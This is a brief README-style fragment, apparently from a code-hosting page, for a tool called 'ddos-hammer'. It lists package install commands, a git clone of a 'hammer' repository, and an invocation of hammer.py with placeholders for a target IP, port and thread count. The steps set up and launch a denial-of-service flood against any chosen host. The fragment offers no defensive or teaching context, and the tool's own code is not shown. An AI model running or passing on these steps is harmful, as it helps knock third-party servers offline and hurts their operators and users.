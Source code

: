 # ddos-hammer
$ pkg update &amp;&amp; pkg upgrade  $ pkg install python $ git clone https://github.com/cyweb/hammer  $ cd hammer  python hammer.py  $ python hammer.py -s [IP target] -p [PORT] -t 135
